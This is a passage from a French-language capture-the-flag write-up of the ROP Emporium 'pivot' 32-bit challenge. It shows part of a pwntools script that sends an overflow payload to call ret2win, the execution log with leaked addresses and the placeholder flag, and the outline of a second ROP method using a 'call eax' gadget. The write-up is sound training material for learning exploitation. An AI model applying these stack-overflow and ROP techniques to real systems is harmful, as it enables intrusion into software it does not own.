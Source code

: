 ```python

# ETAPE 2 - Message 1

# Recoit un LF precedent (?!)
#io.sendline(b"OK")

# ETAPE 2 - Message 2
# Envoi d'un bourrage de debordement ecransant aussi SEBP
PL =b"A"*(offset+4)
PL+=p32(ret2win)
io.sendlineafter(b"> ",PL)

io.interactive()
```

Execution :

    07_pivot$ python3 solve1.py
    [*] '/home/jce/w/ropemporium/x32/07_pivot/pivot32'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
        RUNPATH:  b'.'
    [*] '/home/jce/w/ropemporium/x32/07_pivot/libpivot32.so'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      PIE enabled
    [+] Starting local process '/home/jce/w/ropemporium/x32/07_pivot/pivot32': pid 6343
    [*] leak=f7d3ff10
    [*] plt_foothold=8048520
    [*] got_foothold=804a024
    [*] offset ret2win = 0x503
    b'}\x17\xf4\xf7@\xbd\xd5\xf7\x90\xcc\xda\xf7@w\xe8\xf7'
    [*] 7d17f4f740bdd5f790ccdaf74077e8f7
    [*] foothold leak=f7f4177d
    [*] ret2win      =f7f41974
    [*] Switching to interactive mode
    [*] Process '/home/jce/w/ropemporium/x32/07_pivot/pivot32' stopped with exit code 0 (pid 6343)
    Thank you!

    Now please send your stack smash
    > Thank you!
    ROPE{a_placeholder_32byte_flag!}


### Methode 2.

Méthode en un passage.
- on lit dans eax l'adresse de `foothold_function`
- on lui ajoute l'offset avec la fonction ret2win
- gadget `call eax`
